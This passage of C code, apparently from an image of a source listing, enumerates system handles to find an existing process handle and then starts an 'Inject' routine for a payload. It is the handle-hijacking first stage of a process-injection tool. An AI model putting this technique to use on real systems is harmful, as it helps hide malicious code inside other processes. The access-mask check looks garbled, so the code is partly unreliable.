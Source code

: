 ```c
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectTypeInformation,
objectTypeInfo,
0x1000,
NULL ) != STATUS_SUCCESS)
continue;

// skip some objects to avoid getting stuck
// see: https://github.com/adamdriscoll/PoshInternals/issues/7
if (handle.GrantedAccess == 0x0012019f
&& handle.GrantedAccess != 0x00120189
&& handle.GrantedAccess != 0x120089
&& handle.GrantedAccess != 0x1A019F ) {
free(objectTypeInfo);
continue;
}

// get object name information
objectNameInfo = malloc(0x1000);
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectNameInformation,
objectNameInfo,
0x1000,
&returnLength ) != STATUS_SUCCESS) {

// adjust the size of a returned object and query again
objectNameInfo = realloc(objectNameInfo, returnLength);
if (pNtQueryObject( (HANDLE) handle.HandleValue,
ObjectNameInformation,
objectNameInfo,
returnLength,
NULL ) != STATUS_SUCCESS) {
free(objectTypeInfo);
free(objectNameInfo);
continue;
}
}

// check if we've got a process object
objectName = *(PUNICODE_STRING) objectNameInfo;
UNICODE_STRING pProcess;

pRtlInitUnicodeString(&pProcess, L"Process");
if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
printf("[+] Found process handle (%x)\n", handle.HandleValue);
hProc = (HANDLE) handle.HandleValue;
free(objectTypeInfo);
free(objectNameInfo);
break;
}
else
continue;

free(objectTypeInfo);
free(objectNameInfo);
}

return hProc;
}

int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {

LPVOID pRemoteCode = NULL;
```